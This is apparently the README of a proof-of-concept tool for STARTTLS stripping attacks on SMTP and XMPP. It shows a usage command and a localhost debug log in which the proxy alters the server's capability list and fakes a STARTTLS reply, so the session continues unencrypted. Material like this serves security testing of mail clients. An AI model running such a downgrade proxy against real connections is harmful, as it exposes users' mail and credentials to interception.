 # striptls - proxy

poc implementation of STARTTLS stripping attacks

* SMTP
 * server response capability patch
 * client STARTTLS stripping, invalid response code
 
* XMPP

## example: SMTP

proxy listening on localhost 8825, forwarding data to localhost 25 smtp server

	#> striptls.py localhost 8825 localhost 25
	2016-01-29 21:19:16,654 - INFO     - <Proxy 0x1ef0a50 listen=('localhost', 8825) target=('localhost', 25)> ready.
	2016-01-29 21:19:20,289 - INFO     - <Session 0x1ef0af0> client ('127.0.0.1', 10356) has connected
	2016-01-29 21:19:20,289 - INFO     - <Session 0x1ef0af0> connecting to target ('localhost', 25)
	2016-01-29 21:19:20,305 - DEBUG    - <Session 0x1ef0af0> [client] <= [server]          '220 OSHIBAMA ESMTP\r\n'
	2016-01-29 21:19:21,230 - DEBUG    - <Session 0x1ef0af0> [client] => [server]          'ehlo [192.168.139.1]\r\n'
	2016-01-29 21:19:21,247 - DEBUG    - <Session 0x1ef0af0> [client] <= [server]          '250-OSHIBAMA\r\n250-SIZE 20480000\r\n250-AUTH LOGIN\r\n250 HELP\r\n'
	2016-01-29 21:19:21,249 - DEBUG    - <Session 0x1ef0af0> [client] <= [server][mangled] '250-OSHIBAMA\r\n250-SIZE 20480000\r\n250-AUTH LOGIN\r\n250-STARTTLS\r\n250 HELP\r\n'
	2016-01-29 21:19:21,257 - DEBUG    - <Session 0x1ef0af0> [client] => [server]          'STARTTLS\r\n'
	2016-01-29 21:19:21,257 - DEBUG    - <Session 0x1ef0af0> [client] <= [server][mangled] '200 STRIPTLS\r\n'
	2016-01-29 21:19:21,259 - DEBUG    - <Session 0x1ef0af0> [client] => [server][mangled] None
	2016-01-29 21:19:21,259 - DEBUG    - <Session 0x1ef0af0> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
	2016-01-29 21:19:21,273 - DEBUG    - <Session 0x1ef0af0> [client] <= [server]          '250 OK\r\n'
	2016-01-29 21:19:21,276 - DEBUG    - <Session 0x1ef0af0> [client] => [server]          'rcpt TO:<b@a.com>\r\n'
	2016-01-29 21:19:21,289 - DEBUG    - <Session 0x1ef0af0> [client] <= [server]          '530 SMTP authentication is required.\r\n'
	2016-01-29 21:19:21,292 - DEBUG    - <Session 0x1ef0af0> [client] => [server]          'rset\r\n'
	2016-01-29 21:19:21,305 - DEBUG    - <Session 0x1ef0af0> [client] <= [server]          '250 OK\r\n'
	2016-01-29 21:19:21,316 - WARNING  - <Session 0x1ef0af0> terminated.
